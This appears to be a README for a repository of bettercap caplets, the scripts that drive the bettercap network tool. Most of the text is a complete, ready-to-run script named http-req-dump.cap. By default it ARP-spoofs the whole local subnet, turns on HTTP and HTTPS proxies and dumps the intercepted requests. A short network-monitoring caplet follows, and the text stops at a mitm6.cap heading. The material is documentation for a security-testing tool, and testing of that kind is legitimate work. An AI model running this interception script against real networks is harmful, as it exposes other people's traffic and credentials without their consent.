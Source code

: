 # Caplets

[bettercap](https://github.com/bettercap/bettercap)'s interactive sessions can be scripted with `.cap` files, or `caplets`, the following are a few basic examples, look at this repo for more.

#### http-req-dump.cap

Execute an ARP spoofing attack on the whole network (by default) or on a host (using `-eval` as described), intercept HTTP and HTTPS requests with the `http.proxy` and `https.proxy` modules and dump them using the `http-req-dumsp.js` proxy script.

```sh
# targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet caplets/http-req-dump.cap -eval "set arp.spoof.targets 192.168.1.64"

# to make it less verbose
# events.stream off

# discover a few hosts 
net.probe on
sleep 1
net.probe off

# uncomment to enable sniffing too
# set net.sniff.verbose false
# set net.sniff.local true
# set net.sniff.filter tcp port 443
# net.sniff on

# we'll use this proxy script to dump requests
set https.proxy.script caplets/http-req-dump.js
set http.proxy.script caplets/http-req-dump.js
clear

# go ^_^
http.proxy on
https.proxy on
arp.spoof on
```

#### netmon.cap

An example of how to use the `ticker` module, use this caplet to monitor activities on your network.

```sh
net.probe on
clear
ticker on
```

#### mitm6.cap
